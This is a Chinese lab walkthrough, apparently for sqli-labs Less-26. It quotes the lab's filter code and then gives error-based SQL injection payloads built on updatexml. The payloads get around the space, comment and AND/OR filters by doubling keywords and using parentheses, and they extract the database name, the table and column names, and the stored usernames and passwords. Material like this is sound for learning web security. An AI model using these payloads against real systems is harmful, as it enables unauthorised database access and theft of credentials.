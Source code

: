 ```yaml
---
title: less26
url: https://www.yuque.com/u29002979/ep2zrx/vgqq95ls3mgqam0t
---
```


```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

$id= preg_replace('/or/i',"", $id);			 //strip out OR (non case sensitive)
$id= preg_replace('/and/i',"", $id);		 //Strip out AND (non case sensitive)
$id= preg_replace('/[\/*]/',"", $id);	 //strip out /*
$id= preg_replace('/[--]/',"", $id);		 //Strip out --
$id= preg_replace('/[#]/',"", $id);			 //Strip out #
$id= preg_replace('/[\s]/',"", $id);		 //Strip out spaces空格和换行
$id= preg_replace('/[\/\\\\]/',"", $id); //Strip out slashes/\\\
```

字符型注入，单引号闭合**'**

> **\s过滤了空格和换行，**
> **解决and or可以双写或者用&&和||代替，**
> **解决注释需要强行闭合逃逸，**
> **需要空格的地方可以加上括号()或加号+**
> and or ——> && ||
>
> # --     ——> 闭合逃逸
>
> /s空格        ——> 括号

> All You Spaces and Comments belong to us.

提示**空格,and,注释**被过滤 <a name="y70Tw"></a>

## 注入点检查

`1'`

> **Warning**: mysql\_fetch\_array() expects parameter 1 to be resource, boolean given in **E:\phpstudy\_pro\WWW\sql.com\Less-26\index.php** on line **36**
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

1. 单引号闭合'
2. 网站没有对报错信息进行过滤，我们可以使用基于报错的注入手段

`1 and 1=1 --+`

> Hint: Your Input is Filtered with following result: 11=1

发现and,空格和注释符号被过滤掉了

<a name="vzgqw"></a>

# 报错注入

<a name="Kcozu"></a>

## 爆破数据库名称

`-1'||updatexml(1,concat(0x7e,(select(database())),0x7e),1)||'` <a name="Pain7"></a>

## 爆破数据表名称

`-1'||updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())),0x7e),1)||'` <a name="LKNid"></a>

## 爆破字段名

`-1'||updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema=database()aandnd(table_name='users'))),0x7e),1)||'` <a name="Clssj"></a>

## 爆破字段内容

`-1'||updatexml(1,concat(0x7e,(select(group_concat(username,0x7e,passwoorrd))from(users)),0x7e),1)||'`
